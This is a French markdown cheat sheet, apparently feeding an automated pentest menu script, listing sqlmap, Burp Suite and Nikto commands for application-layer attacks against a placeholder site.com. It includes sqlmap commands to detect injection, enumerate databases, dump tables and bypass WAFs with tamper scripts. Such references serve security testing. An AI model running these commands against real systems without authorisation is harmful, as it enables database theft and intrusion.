 # Couche 5-7 (Application) – Attaques et Outils

**Version Testée :**
- Sqlmap 1.6.x
- Burp Suite Community 2021.10
- Nikto 2.5.x

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Application (couches 5 à 7) du modèle OSI.  
Cette couche concerne l’interaction avec les applications web et les services, incluant l’injection SQL, la manipulation de requêtes HTTP et la découverte de vulnérabilités dans les serveurs web.  
Le script automatisé analysera ce fichier pour :
- Lister les outils disponibles (sections marquées par **"### Outil:"**),
- Afficher, pour chaque outil, les attaques possibles (sections marquées par **"#### Attaque:"**),
- Proposer les commandes associées pour chaque attaque (commandes présentées dans des blocs de code sous **"###### Commande:"**).

Vous pourrez enrichir ce fichier ultérieurement sans modifier le script.

---

### Outil: Sqlmap
**Description :**  
Sqlmap est un outil d’automatisation pour détecter et exploiter des vulnérabilités SQL dans les applications web.

#### Attaque: Détection d'injection SQL
*Détails de l'attaque :*  
Détecter automatiquement les vulnérabilités d'injection SQL sur une URL cible.

###### Commande: Détecter une injection SQL
```bash
sqlmap -u "http://site.com/page?id=1" --batch
```
Détails :
- Utilise le mode batch pour automatiser les choix.
- Cible : http://site.com/page?id=1

#### Attaque: Extraction des bases de données
*Détails de l'attaque :*  
Extraire la liste des bases de données présentes sur le serveur vulnérable.

###### Commande: Extraire les bases de données
```bash
sqlmap -u "http://site.com/page?id=1" --dbs
```
Détails :
- Affiche la liste des bases de données disponibles.

#### Attaque: Dump d'une table spécifique
*Détails de l'attaque :*  
Extraire le contenu d'une table précise après avoir sélectionné la base de données.

###### Commande: Dump d'une table spécifique
```bash
sqlmap -u "http://site.com/page?id=1" -D nom_de_base -T nom_de_table --dump
```
Détails :
- Remplacez "nom_de_base" et "nom_de_table" par les valeurs correspondantes.

#### Attaque: Bypass WAF
*Détails de l'attaque :*  
Utiliser des techniques de contournement pour échapper aux Web Application Firewalls.

###### Commande: Bypass WAF avec tamper
```bash
sqlmap -u "http://site.com/page?id=1" --tamper=space2comment
```
Détails :
- Utilise le script tamper "space2comment" pour contourner certaines protections.

---

### Outil: Burp Suite
**Description :**  
Burp Suite est une plateforme intégrée pour tester la sécurité des applications web, offrant des fonctionnalités de proxy, scanner et intruder.

#### Attaque: Analyse et Scan Web
*Détails de l'attaque :*  
Utiliser Burp Suite pour scanner les vulnérabilités d'une application web.

###### Commande: Lancer Burp Suite Community
```bash
java -jar burpsuite_community.jar
```
Détails :
- Démarrage de l'interface graphique de Burp Suite Community.
- Nécessite Java installé sur le système.

#### Attaque: Interception de requêtes HTTP
*Détails de l'attaque :*  
Intercepter et modifier en temps réel les requêtes HTTP pour tester la robustesse des contrôles d'accès.

###### Commande: Lancer Burp avec configuration personnalisée
```bash
java -jar burpsuite_community.jar --config-file=burp_config.json
```
Détails :
- Utilise un fichier de configuration (burp_config.json) pour lancer Burp Suite avec des paramètres pré-définis.

---

### Outil: Nikto
**Description :**  
Nikto est un scanner de serveurs web open source qui identifie les problèmes de sécurité et les vulnérabilités connues dans les configurations de serveurs web.

#### Attaque: Scan de vulnérabilités sur un serveur web
*Détails de l'attaque :*  
Exécuter un scan complet des vulnérabilités d’un serveur web.

###### Commande: Lancer un scan avec Nikto
```bash
nikto -h http://site.com
```
Détails :
- Cible : http://site.com.
- Analyse des vulnérabilités connues du serveur web.

---

## Précautions Légales & Disclaimer
**Attention :**  
L’utilisation de ces outils et commandes doit être réalisée dans un cadre légal et exclusivement en environnement de test. Toute utilisation malveillante est strictement interdite.

---

## Références & Ressources
- [Sqlmap Official Website](https://sqlmap.org/)
- [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload)
- [Nikto Project](https://cirt.net/Nikto2)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
```